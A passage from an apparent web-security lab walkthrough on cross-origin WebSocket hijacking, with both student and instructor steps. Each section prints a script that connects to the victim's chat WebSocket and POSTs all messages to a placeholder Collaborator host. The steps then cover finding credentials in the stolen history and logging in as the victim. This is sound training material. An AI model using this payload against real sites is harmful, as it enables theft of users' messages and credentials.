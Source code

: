     ```html
    <script>
      var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send('READY');
      };
      ws.onmessage = function(event) {
          fetch('https://YOUR-COLLABORATOR-ID', {
              method: 'POST',
              mode: 'no-cors',
              body: event.data
          });
      };
    </script>
    ```
* Replace `YOUR-LAB-ID` and `YOUR-COLLABORATOR-ID` with the correct URLs.

#### **Step 5: Execute the Exploit**

* Click **View Exploit** to host the script on the **Exploit Server**.
* Send the exploit to the victim and monitor **Burp Collaborator** for chat history exfiltration.

#### **Step 6: Retrieve the Victim's Credentials**

* Locate the victim’s login credentials within the exfiltrated chat history.
* Use the stolen credentials to log in as the victim.

✅ **Lab Completed Successfully**

***

### **Instructor Solution Steps**

#### **Step 1: Examine the WebSocket Chat System**

* Open the chat feature, send a test message, and confirm messages persist after refreshing.

#### **Step 2: Inspect WebSocket Traffic**

* Use **Burp Suite > Proxy > WebSockets History** to observe the WebSocket connection.
* Identify **PING/PONG messages** and confirm the **"READY"** message retrieves chat history.

#### **Step 3: Verify WebSocket Handshake**

* Review the **WebSocket handshake** in **Burp Suite > HTTP History**.
* Confirm that the request:
  * Uses `SameSite=None` cookies.
  * Lacks **CSRF protection**.

#### **Step 4: Deploy the Attack**

*   Place the following **cross-origin WebSocket hijacking payload** on the **Exploit Server**:

    ```html
    <script>
      var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send('READY');
      };
      ws.onmessage = function(event) {
          fetch('https://YOUR-COLLABORATOR-ID', {
              method: 'POST',
              mode: 'no-cors',
              body: event.data
          });
      };
    </script>